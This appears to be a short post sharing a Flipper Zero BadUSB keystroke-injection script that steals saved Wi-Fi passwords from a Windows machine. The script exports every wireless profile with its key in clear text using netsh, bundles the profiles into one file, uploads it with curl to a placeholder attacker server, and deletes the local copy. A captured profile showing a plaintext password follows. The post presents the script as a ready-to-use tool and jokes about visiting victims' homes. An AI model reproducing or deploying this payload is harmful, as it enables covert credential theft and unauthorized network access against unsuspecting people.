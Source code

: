 BadUSB flipper script file :
----

Because getting on your wifi is the start of things. 

`REM Wifi password stealer
DELAY 100
GUI r
DELAY 100
STRING cmd
ENTER
DELAY 1000
STRING cd %temp%
ENTER
DELAY 1000
REM exports the wifi passwords as XML
STRING netsh wlan export profile key=clear
ENTER
DELAY 1000
REM put all in 1 file
STRING type *.xml >> flipme.xml
ENTER
DELAY 1000
REM copys the files to host
STRING curl -X POST -F "file=@%temp%/flipme.xml" http://YOURSERVE:PORT/upload ENTER
DELAY 1000
STRING del flipme.xml
ENTER
DELAY 1000
STRING exit
ENTER`

Run this fun go uploader that saves the files with timestamp
GoLang because this can be run on any linux box.

Connect Flipper on laptop-usb Click and GO! (2 seconds?)  
Below saved file of all found wifi passwords with plaintext passwords on my server, so if you see a bald bearded guy around your house.... beware.

flipmeister@server:~/tmp/uploads$ cat 1706822308924902098_flipme.xml  
`<WLANProfile xmlns="[What's New in Networking | Microsoft Learn](http://www.microsoft.com/networking/WLAN/profile/v1)">
 <name>MyISP</name>
 <SSIDConfig>
 <SSID>
 <hex>5A6967676F4E6F476F</hex>
 <name>MyISP</name>
 </SSID>
 </SSIDConfig>
 <connectionType>ESS</connectionType>
 <connectionMode>auto</connectionMode>
 <MSM>
 <security>
 <authEncryption>
 <authentication>WPA2PSK</authentication>
 <encryption>AES</encryption>
 <useOneX>false</useOneX>
 </authEncryption>
 <sharedKey>
 <keyType>passPhrase</keyType>
 <protected>false</protected>
 <keyMaterial>MyWifiPassword!</keyMaterial>
 </sharedKey>
 </security>
 </MSM>
 <MacRandomization xmlns="http://www.microsoft.com/networking/WLAN/profile/v3">
 <enableRandomization>false</enableRandomization>
 <randomizationSeed>943798801</randomizationSeed>
 </MacRandomization>
</WLANProfile>`
